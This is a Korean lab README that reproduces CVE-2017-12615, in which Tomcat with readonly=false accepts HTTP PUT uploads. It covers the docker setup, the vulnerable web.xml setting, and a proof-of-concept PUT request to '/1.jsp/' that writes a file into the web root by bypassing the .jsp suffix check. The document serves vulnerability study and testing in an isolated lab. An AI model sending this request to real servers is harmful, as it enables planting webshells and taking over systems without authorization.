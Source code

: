 # PUT Method를 통한 Tomcat 파일 쓰기 취약점 (CVE-2017-12615)

**Contributors**
    
-   [이민혁(@mh.Lee)](https://github.com/Lee-Minhyeok)

Tomcat version: 8.5.19

## 개발 환경 구성

```
docker compose build
docker compose up -d
```

개발 환경을 구성하고 `http://your-ip:8080`를 방문하면, Tomcat의 예제 페이지를 볼 수 있다.

## 이론적 해석(Rationale)

Tomcat은 쓰기 권한(readonly=false)을 설정하여 서버에 파일을 쓸 수 있게 된다.

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Tomcat은 파일 접미사를 어느 정도 확인하지만(jsp를 직접 작성할 수는 없음) 일부 파일 시스템 기능(예: Linux에서 `/` 사용)을 통해 제한을 우회할 수 있다.

## 개념 증명(POC)

다음 패킷을 직접 보내면 쉘이 웹 루트 디렉터리에 기록됩니다.

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

다음과 같이:

![](result.png)